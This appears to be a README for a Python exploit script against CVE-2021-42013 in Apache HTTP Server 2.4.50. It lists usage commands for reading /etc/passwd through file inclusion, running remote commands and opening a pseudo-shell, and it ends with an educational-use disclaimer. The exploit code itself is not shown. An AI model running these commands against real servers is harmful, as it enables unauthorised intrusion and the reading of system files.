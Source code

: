 # Apache HTTP Server 2.4.50 LFI & RCE

A python3 script for the CVE-2021-42013 - Apache HTTP Server 2.4.50 LFI & RCE. RCE requires cgi-bin to be enabled

## Getting Started

### Executing program

* LFI
```
python3 apache_2.4.50.py -t http://apache.hack/ -lfi /etc/passwd
```
* RCE
```
python3 apache_2.4.50.py -t http://apache.hack/ -rce whoami
```
* Pseudo-shell
```
python3 apache_2.4.50.py -t http://apache.hack/ -shell
```

## Help

For help menu:
```
python3 apache_2.4.50.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.